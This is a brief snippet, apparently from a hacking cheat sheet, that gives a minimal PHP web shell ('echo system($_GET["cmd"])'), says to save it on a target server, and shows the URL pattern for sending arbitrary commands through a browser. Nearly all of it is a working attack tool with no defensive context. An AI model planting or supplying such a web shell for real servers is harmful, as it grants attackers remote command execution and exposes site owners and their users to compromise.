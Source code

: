 ```
<?php
	echo system($_GET["cmd"]);
?>
```
PHP payload script to save on the server.
Then in an Internet browser:
`http://<domain>/<webshell.php>?cmd=<command>`.